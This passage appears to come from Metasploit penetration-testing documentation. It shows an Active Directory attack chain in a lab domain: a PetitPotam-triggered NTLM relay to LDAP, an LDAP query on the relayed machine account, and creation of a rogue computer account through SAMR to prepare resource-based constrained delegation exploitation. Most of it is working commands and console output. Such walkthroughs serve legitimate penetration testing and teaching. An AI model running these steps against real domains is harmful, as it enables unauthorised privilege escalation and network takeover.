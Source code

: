 ```
[+] Relay succeeded
[*] LDAP session 1 opened (192.168.232.3:46691 -> 192.168.232.110:389) at 2025-01-23 19:19:18 +0100
[*] Received request for NEWLAB\VICTIM$
[*] Identity: NEWLAB\VICTIM$ - All targets relayed to

[+] 192.168.232.111:445   - Server responded with ERROR_BAD_NETPATH which indicates that the attack was successful
[*] 192.168.232.111:445   - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

msf auxiliary(scanner/dcerpc/petitpotam) > sessions

Active sessions
===============

  Id  Name  Type  Information                               Connection
  --  ----  ----  -----------                               ----------
  1         ldap  LDAP VICTIM$ @ 192.168.232.110:389  192.168.232.3:46691 -> 192.168.232.110:389 (192.168.232.110)

msf auxiliary(scanner/dcerpc/petitpotam) > sessions -i 1
[*] Starting interaction with 1...

LDAP (192.168.232.110) > query -f (sAMAccountName=VICTIM$)
CN=VICTIM,CN=Computers,DC=newlab,DC=local
===============================================

 Name                                      Attributes
 ----                                      ----------
 accountexpires                            9223372036854775807
 badpasswordtime                           133820110912034399
 badpwdcount                               0
 cn                                        VICTIM
 ...

LDAP (192.168.232.110) >
Background session 1? [y/N]
```

### Exploit Resource-based Constrained Delegation (RBCD)

For details about RCBD, see https://docs.metasploit.com/docs/pentesting/active-directory/kerberos/rbcd.html#rbcd-exploitation

- Create a computer account with the `admin/dcerpc/samr_account` module and the same Domain User account

```
msf auxiliary(admin/dcerpc/samr_account) > run verbose=true rhost=192.168.232.110 SMBUser=msfuser SMBPASS=123456 SMBDomain=newlab.local action=ADD_COMPUTER ACCOUNT_NAME=FAKE01$ ACCOUNT_PASSWORD=123456
[*] Running module against 192.168.232.110
[*] 192.168.232.110:445 - Adding computer
[*] 192.168.232.110:445 - Connecting to Security Account Manager (SAM) Remote Protocol
[*] 192.168.232.110:445 - Binding to \samr...
[+] 192.168.232.110:445 - Bound to \samr
[+] 192.168.232.110:445 - Successfully created newlab.local\FAKE01$
[+] 192.168.232.110:445 -   Password: 123456
[+] 192.168.232.110:445 -   SID:      S-1-5-21-3065298949-3337206023-618530601-1618
[*] Auxiliary module execution completed
```

